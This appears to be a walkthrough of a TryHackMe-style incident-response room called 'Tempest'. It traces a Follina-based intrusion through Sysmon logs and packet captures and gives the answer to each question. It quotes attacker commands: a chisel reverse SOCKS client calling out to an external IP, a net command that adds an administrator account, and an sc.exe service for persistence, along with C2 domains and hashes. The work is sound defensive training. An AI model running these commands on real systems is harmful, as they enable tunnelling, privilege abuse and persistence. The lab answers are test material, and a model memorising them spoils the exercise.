


# Tempest


You are tasked to conduct an investigation from a workstation affected by a full attack chain

## Task 4 - Initial Access - Malicious Document

Tempest Incident

In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a CRITICAL severity that needs further investigation.

As reported by the SOC analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:

The malicious document has a .doc extension.
The user downloaded the malicious document via chrome.exe.
The malicious document then executed a chain of commands to attain code execution.

**Answer the questions below**

> 4.1 The user of this machine was compromised by a malicious document. What is the file name of the document?
>
I started by converting the sysmon file to a csv file using the EvtxEcmd tool using this command: 
```
.\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\sysmon.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csvf sysmon.csv. 
```
Then I opened the sysmon.csv file with Timeline explorer. I searched for .doc using the search bar then I scrolled to the payload Data4 and I found the file name.

 

**ANS:free_magicules.doc**

> 4.2 What is the name of the compromised user and machine?
>
From the target file name above, I saw that the user who downloaded the file is benimaru so I just had to look for the machine name so I went to the username column and found it.


**ANS: benimaru-TEMPEST**

> 4.3 What is the PID of the Microsoft Word process that opened the malicious document?
>
Under the executable info column, I found the microsoft word process that was used and I traced the row to the column that contained the process ID

**ANS: 496**

> 4.4 Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?
>
I made use of the sysmon view to search for it


**ANS: 167.71.199.191**

> 4.5 What is the base64 encoded string in the malicious payload executed by the document?
>
I went back to my timeline process and filtered my search, made sure the username is benimaru, and the process ID is 496, then I had only a single result then I went to the executable info and opened it then I copied the base 64 string.


> 4.6 What is the CVE number of the exploit used by the attacker to achieve a remote code execution?
>
I made use of the hint, the process that executed the malicious base64 payload is msdt.exe so I googled “msdt.exe exploit”


**ANS: 2022-30190** 

---

## Task 5: Initial Access - Stage 2 execution

Malicious Document - Stage 2

Based on the initial findings, we discovered that there is a stage 2 execution:

The document has successfully executed an encoded base64 command.
Decoding this string reveals the exact command chain executed by the malicious document.

**Answer the questions below**

> 5.1 The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?
>
I decode the base64 string on cyberchef and I found the path but I had to change the $app to the actual path which is C:\Users\benimaru\AppData\Roaming


**ANS: C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup**

> 5.2 The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?
>
Since we are looking for a command, I decided to search for powershell on Timeline explorer. Note that my default filter is on the username, this makes it easier for me.
After searching for powershell, I found the command I was looking for.


> 5.3 Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?
>
From the command executed, the file we are looking for is obviously first.exe. So I traced the row of my command line to the column that has the file hashes and I got the hash, lol


**ANS: CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8**

> 5.4 The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker?
>
I saw some DNS queries and I tried it with port 80 and yep that was it.


**ANS: resolvecyber.xyz:80** 

---
## Task 6 - Initial Access - Malicious Document Traffic

Based on the collected findings, we discovered that the attacker fetched the stage 2 payload remotely:

We discovered the Domain and IP invoked by the malicious document on Sysmon logs.
There is another domain and IP used by the stage 2 payload logged from the same data source.

**Answer the questions below**

> 6.1 What is the URL of the malicious payload embedded in the document?
>
I made use of wireshark for the network log analysis. Based on the previous domains I decided to use a display filter : 
```
“http.host == "phishteam.xyz" && http.request.method=”GET”
```
So I was able to get my answer. 


**ANS: http://phishteam.xyz/02dcf07/index.html**

> 6.2 What is the encoding used by the attacker on the c2 connection?
>
Filtered the display to check one of the domains “resolvecyber.xyz”. I saw a connection that looks like it was encoded, the parameter started with q = and it looks like a base64 so I verified with Cyberchef


**ANS: base64**

> 6.3 The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?
>
I already answered this in the previous question. The parameter is q

> 6.4 The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?
>
This is also in the wireshark pcap screenshot in the question 6.2 above

**ANS: /9ab62b5**

> 6.5 What is the HTTP method used by the binary?
>
**ANS: GET**

> 6.6 Based on the user agent, what programming language was used by the attacker to compile the binary?
>
This was found in the packet details under user agent


**ANS: nim**

---

## Task 7: Discovery - Internal Reconnaissance

Based on the collected findings, we have discovered that the malicious binary continuously uses the C2 traffic:

We can easily decode the encoded string in the network traffic.
The traffic contains the command and output executed by the attacker.

**Answer the questions below**

> 7.1 The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file?
>
This was a try and error method. I knew the base64 commands contained what I was looking for but I didn’t know the exact one so I decided to try and decoding different ones on cyberchef. I was lucky and found it on my 4th trial. 


**ANS: infernotempest**

> 7.2 The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?
>
For this, I looked for a very long base64 encoded command since what I was looking for is a list of ports, luckily for me, it was the next command after the previous one so I copied and used cyberchef to bake it
Then I figured the attacker was running netstat. Then I copied the output and asked chatGPT which port could provide a remote shell inside a machine and I found my answer of interest. 

Port 5985 : This is typically associated with WinRM (Windows Remote Management), which provides a shell interface for remote management over HTTP. 


**ANS: 5985**

> 7.3 The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection?
>
Back to timeline explorer, checked the executable info and I found it


**ANS: C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks**

> 7.4 What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?
>
Just had to scroll to the left a little to find the hash

**ANS: 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451**

> 7.5 What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.
>
I searched for the hash on VirusTotal and I found the tool


**ANS: chisel**

> 7.6 The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate?
>
The succeeding process showing in my Time explorer was not what THM was looking for so I had to make use of help online. I saw the required process and the checked what the process means. The PowerShell host wsmprovhost.exe is a proxy process executed remotely through PowerShell when using Windows Remote Management (WinRM)


**ANS: winrm**

---
## Task 8 : Privilege Escalation - Exploiting Privileges

Based on the collected findings, the attacker gained a stable shell through a reverse socks proxy.

**Answer the questions below**

> 8.1 After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary?
>
From the Timeline explorer and also from our previous wireshark capture, we saw another binary which was spf.exe. I just had to look for the binary again and check the hash. 


**ANS: spf.exe,8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D**

> 8.2 Based on the SHA256 hash of the binary, what is the name of the tool used?
>
Checked the hash on virustotal and found the tool used. 


**ANS: printspoofer**

> 8.3 The tool exploits a specific privilege owned by the user. What is the name of the privilege?
>
I googled the tool and found the privilege it exploits.


**ANS: SeImpersonatePrivilege** 

> 8.4 Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary?
>
If you check the screenshot in Task 8.1, a binary was ran with the spf.exe binary

**ANS: final.exe**

> 8.5 The binary connects to a different port from the first c2 connection. What is the port used?
>
So back to wireshark, the attacker used a different port but the destination remains the same so I filtered the search and used our previous destination ip address then scrolled to look for ports that are not port 80 then I found one. 


**ANS: 8080**

## Task 9: Actions on Objective - Fully-owned Machine

Now, the attacker has gained administrative privileges inside the machine. Find all persistence techniques used by the attacker.

In addition, the unusual executions are related to the malicious C2 binary used during privilege escalation.

**Answer the questions below**

> 9.1 Upon achieving SYSTEM access, the attacker then created two users. What are the account names?
>
I went back to the process execution info in time explorer to search for the users created. I filtered my search with net and I saw a lot of commands



**ANS: shion,shuna**

> 9.2 Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail?
>
**ANS: /add**

> 9.3 Based on windows event logs, the accounts were successfully created. What is the event ID that indicates the account creation activity?
>
**ANS: 4720**

> 9.4 The attacker added one of the accounts in the local administrator's group. What is the command used by the attacker?
>
In my previous screenshot, you will find the one with localgroup admin where a user was added. 

**ANS: net localgroup administrators /add shion**

> 9.5 Based on windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group?
>
**ANS: 4732**

> 9.6 After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this?
>
For persistence, I guessed it will be a scheduled task or a service installation and will have to do with the final.exe binary. So I searched for final.exe and I found a scheduled task!!


**ANS: C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto**

---

And that is the end of my investigation. This was a long one…..
